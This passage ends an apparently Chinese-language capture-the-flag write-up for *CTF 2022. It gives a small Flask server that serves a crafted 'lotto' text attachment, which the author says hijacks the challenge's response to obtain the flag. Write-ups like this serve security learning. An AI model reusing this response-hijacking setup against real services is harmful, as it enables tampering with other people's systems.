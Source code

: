```Nginx
    }
```

在对应端口运行如下程序。

```Python
from flask import Flask, make_response

import secrets



app = Flask(__name__)



@app.route("/")

def index():

    r = "lotto lottod.lemonprefect.cn"

    response = make_response(r)

    response.headers['Content-Type'] = 'text/plain'

    response.headers['Content-Disposition'] = 'attachment; filename=lotto_result.txt'

    return response



if __name__ == "__main__":

    app.run(debug=True, host='0.0.0.0', port=8068)
```

即可同时达成劫持与内容相等，获得 flag。

![img](starctf2022/(null)-20220421125559634.(null))

---

其他方向的题目由于我没做就不写啦